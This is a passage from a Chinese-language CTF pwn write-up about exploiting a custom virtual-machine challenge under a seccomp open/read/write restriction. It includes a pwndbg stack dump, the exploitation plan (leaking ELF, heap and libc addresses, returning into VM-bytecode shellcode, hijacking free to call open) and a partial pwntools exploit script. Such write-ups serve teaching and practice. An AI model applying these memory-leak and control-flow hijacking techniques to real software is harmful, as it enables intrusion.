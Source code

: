 ```assembly
```

然后`puts(stack)`，可以看到该虚拟栈上有`heap`地址和`elf`地址，但是只能泄漏一个

```assembly
pwndbg> telescope 0x55555575ad68 0x30
00:0000│ rsi  0x55555575ad68 ◂— '1234454636\n'
01:0008│      0x55555575ad70 ◂— 0xa3633 /* '36\n' */
02:0010│      0x55555575ad78 ◂— 0x0
... ↓
1e:00f0│      0x55555575ae58 —▸ 0x555555758050 ◂— 0x20746168772c6b6f ('ok,what ')
1f:00f8│      0x55555575ae60 ◂— 0x0
20:0100│      0x55555575ae68 —▸ 0x555555757851 ◂— 0xff
```

接下来同第一步的`read(0, stack, 0x1000)` `write(0, stack, 0x20)`然后`ret`



这个程序中有一个两个比较奇怪的地方，由于`ret`的时候程序的实现，是将`sp-=8`，但是`PUSH`为`sp-=8` `POP`为`sp+=8`，因此`ret`的时候比较奇怪，另外就是与`QWBlogin`相比没有 什么能用的`gadget`，因此想法只能为按照`vm`的规则，写`shellocde`，然后在最后`ret`的时候跳转过去，但是该题用 `seccomp`限制了只能 `orw`，且没有给`open`的 `syscall`只能泄漏

### 思路

因此思路就是，先利用`puts`泄漏`elf`的地址，然后再`ret`到最初`elf_code+0x3`然后再泄漏`heap`，`ret`到写入栈上的`shellcode`

利用`puts`泄漏`libc`，然后再次输入到栈上，利用`\x6d: mov reg[0], 0`作为`nop`，编写`shellcode`

然后将`open`写入`free`的位置，因此在调用`syscall 03`时就是调用`open`，最后利用`orw`进行读取`flag`

### exp

```python
# heap+0x2e68 => elf_bss

io.sendafter("name:", "A"*0xff+"#")

io.recvuntil("#")
elf.address = u64(io.recvn(6) + "\x00\x00") - 0x203851
success("elf", elf.address)


# 0xf8 + ret 
io.sendafter("say:", "A"*0x100 + p64(elf.address + 0x203023))

io.sendafter("name:", "\x50")
heap = u64(io.recvn(6) + "\x00\x00") - 0x50
success("heap", heap)

'''
mov reg[0], read_got
puts
mov reg[0], 0
mov reg[1], heap + addr
mov reg[2], 0x1000
read        
//  use 0x6d: mov reg[0], 0 as nop
'''

payload = "\x11" + p64(elf.got['read'])
payload += "\x8f\x02"
payload += "\x6d"
payload += "\x12" + p64(heap+0x2d60)
payload += "\x13" + p64(0x1000)
payload += "\x8f\x00"
payload = payload.ljust(0x100, "A")
payload += p64(heap+0x2d60)
```